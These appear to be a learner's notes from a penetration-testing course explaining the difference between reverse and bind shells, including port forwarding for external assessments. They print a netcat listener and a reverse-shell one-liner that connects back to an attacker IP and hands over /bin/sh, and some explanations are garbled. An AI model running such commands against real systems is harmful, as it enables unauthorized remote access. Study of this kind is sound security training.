

All the show is access to a Machine. So when we say we pop a shell that means we get access to a machine.
Reverse Shell
Reverse shell means that a victim connects to attacker(or us)
!YOU MAY GET ASKED THIS QUESTION ABOUT SHELLS IN AN INTERVIEW, WHAT IS A REVERSE SHELL? - WHAT IS A BIND SHELL?

Target is connecting, Attackbox is listening.
nc -lvp(listening verbose port) 4444 that means on our machine we're opening up that port when we use net cat on this machine.
nc 192.168.1.1 4444 -e(establish) /bin/sh that means this machine want to connect this ip address and this port and then establish a bin shell in attacker machine.
SO ALL WE'RE GOING TO DO WITH REVERSE SHELL IS WE'RE GOING TO LISTEN.
Bind Shell

in here exploit goes out the target machine and say listen the 4444 port and establish a bin shell also in attacker machine we say connect to target machine through 4444 port.
As a summary reverse shell means the target can expect to us. a bind shell means we connect to the target.
!YOU ARE GOING TO USE REVERSE SHELL NINETY FIVE PERCENT OF THE TIME. THERE ARE INSTANCES WHERE YOU'RE GOING TO USE BIND SHELLS, BIND SHELLS MOST LIKELY TO BE ON AN EXTERNAL ASSESSMENT.
!!If you think about it a reverse shell you're sitting in your home network and you are sitting on a VM, in that VM is using an internal IP address is talking out through net. It's going through your public IP address and you're attacking a target. Well how are you going to connect that public IP address of the target back to yourself on an internal IP. (you have to set a port forwarding if you are going to use external assesment with reverse shell, because if we specify our public ip address to the target, target go to our router because that is our router's ip and because of that our router will not be able to handle this request because it doesn't know where to direct the incoming request so you have to tell this information with port forwarding.)
You're going to have to set a port for it or port trigger on your firewall to talk into that specific machine. It's a little bit of extra work you're opening some stuff up on your side.
The other idea is to say hey bind shell why don't I just go ahead and open a port up on that target.
All that my way through my public IP address and I'll just connect to that port.
It doesn't care what IP address you're coming from, is just listening.
So this is where bind shells are useful when we have to bypass some sort of firewall or just make sense sometimes a reversal just doesn't work. And we have to use a bind shell anyway.

this is the proof of concept